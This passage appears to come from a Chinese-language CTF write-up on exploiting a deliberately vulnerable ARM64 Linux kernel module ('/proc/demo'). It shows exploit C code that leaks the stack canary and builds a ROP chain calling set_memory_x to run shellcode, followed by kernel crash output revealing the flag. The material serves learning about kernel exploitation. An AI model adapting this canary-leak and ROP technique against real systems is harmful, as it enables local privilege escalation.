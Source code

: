```c
                       0x00,0x00,0x3f,0xd6,0xf8,0x24,0x0a,0x08,0x00,0x80,0xff,0xff,
                       0x58,0x22,0x0a,0x08,0x00,0x80,0xff,0xff,0x2f,0x66,0x6c,0x61,
                       0x67,0x00,0x00,0x00,0xe0,0x14,0x22,0x08,0x00,0x80,0xff,0xff,
                       0x28,0x3e,0x22,0x08,0x00,0x80,0xff,0xff};

    int f = open("/proc/demo",O_RDWR);
    
    // leak canary
    read(f,buf,0x100);
    long long canary =  *(long long *)(buf+128);
    *(long long *)(exp+128) = canary;
    
    /*
    panic:
    [    6.324054] x11: 00000000000001f8 x10: 00000000000001f0 x9 : 00000000000001e8
    [    6.324288] x8 : 00000000000001e0 x7 : 00000000000001d8 x6 : 00000000000001d0 
    
    ROP:
    0x0884cc5c: mov x1, x8; mov x0, x9; blr x10; ldp x29, x30, [sp], #0x10; ret; 

    /home/pwn # cat /proc/kallsyms | grep set_memory_x
    ffff800008030948 T set_memory_x
    */
   
    *(long long *)(exp+0x90)  = 0xffff80000884cc5c;  // rop gadget

    *(long long *)(exp+0x1e8) = 0xffff800000e42388;  // x9 -> x0
    *(long long *)(exp+0x1e0) = 1;                   // x8 -> x1    
    *(long long *)(exp+0x1f0) = 0xffff800008030948;  // set_memory_x

    *(long long *)(exp+0xb0 ) = 0xffff800000e42388;  // shellcode addr

    write(f,exp,0x200);
}
```

观察寄存器，成功使用普通用户打出本地flag：

```c
~ $ ./test
[    2.325605] Unable to handle kernel paging request at virtual address 0065747b4654432a
[    2.326936] Mem abort info:
[    2.327035]   ESR = 0x86000004
[    2.327157]   EC = 0x21: IABT (current EL), IL = 32 bits
[    2.327308]   SET = 0, FnV = 0
[    2.327403]   EA = 0, S1PTW = 0
[    2.327508]   FSC = 0x04: level 0 translation fault
[    2.327694] [0065747b4654432a] address between user and kernel address ranges
[    2.328045] Internal error: Oops: 86000004 [#1] PREEMPT SMP
[    2.328362] Modules linked in: demo(O)
[    2.328498] CPU: 0 PID: 93 Comm: test Tainted: G        W  O      5.17.2 #4
[    2.328674] Hardware name: linux,dummy-virt (DT)
[    2.328789] pstate: 60400805 (nZCv daif +PAN -UAO -TCO -DIT -SSBS BTYPE=-c)
[    2.328960] pc : 0x65747b4654432a
[    2.329262] lr : demo_buf+0x58/0xffffffffffffec78 [demo]
[    2.329885] sp : ffff80000a2b3d90
[    2.329970] x29: 0000000000000000 x28: ffff000002e9de80 x27: 0000000000000000
[    2.330161] x26: 0000000000000000 x25: 0000000000000000 x24: 0000000000000000
[    2.330342] x23: 0000000000000000 x22: ffff80000a2b3e00 x21: 0000fffffbb69a68
[    2.330560] x20: 0000000000000000 x19: 0000000000000000 x18: 0000000000000000
[    2.330757] x17: 0000000000000000 x16: 0000000000000000 x15: 0000000000000000
[    2.330938] x14: 0000000000000000 x13: 0a7d67616c665f74 x12: 7365747b4654432a
[    2.331119] x11: 0000000000000000 x10: ffff00000282ce40 x9 : 0000000000000004
[    2.331302] x8 : 6d65640067616c66 x7 : 0000000000000000 x6 : 0000000000000000
```